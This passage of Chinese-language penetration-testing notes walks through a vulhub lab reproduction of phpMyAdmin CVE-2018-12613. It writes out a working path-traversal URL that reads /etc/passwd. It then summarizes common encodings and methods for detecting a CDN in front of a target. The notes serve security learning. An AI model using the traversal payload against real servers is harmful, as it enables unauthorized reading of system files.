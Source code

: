 - 漏洞演示

  https://vulhub.org/#/environments/phpmyadmin/CVE-2018-12613/

  首先进入该漏洞的目录，启动phpmyadmin：

  ```shell
  [root@hdss7-11 CVE-2018-12613]# pwd
  /opt/vulhub/vulhub-master/phpmyadmin/CVE-2018-12613
  [root@hdss7-11 CVE-2018-12613]# docker-compose up -d
  ```

  ![img](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/1623123783733-3cba9200-6e65-4115-b589-0b777315382c.png)

  成功访问phpmyadmin之后，访问`http://10.1.1.133:8080/?target=db_sql.php%3f/../../../../../../../../etc/passwd`实现漏洞利用，得到执行etc/passwd的结果：

  ![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1623123853171-a2f0af6d-42bd-483d-a96e-02c553f0f297.png)

## 4. 加密编码算法

- 时间戳

  在线转换工具：https://tool.lu/timestamp/

- URL编码

  ![image-20220725211231394](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220725211231394.png)

- base64编码

  随着编码的文本增加而增加、由大小写和数字组成且字符结尾一般有两个等号。

- unescape编码

  和URL编码有点像，特点是一般是%U+四个数字对应着两个字符，主要运用于网站web应用。

- AES加密

## 5. CDN绕过

CDN依靠部署在各地的边缘服务器，通过中心平台的负载均衡、内容分发、调度等功能模块，使用户就近获取所需内容，降低网络拥塞，提高用户访问响应速度和命中率。但在安全测试过程中，若目标存在CDN服务，将会影响到后续的安全测试过程。

- 判断是否存在CDN服务

  利用多节点技术进行请求返回判断
  http://ping.chinaz.com/
  http://ping.aizhan.com/
  http://ce.cloud.360.cn/

  验证获取到ip是否可信可以采用第三方的ip地址查询工具经行验证。

  https://get-site-ip.com/

  cdn网站

  https://tools.ipip.net/cdn.php
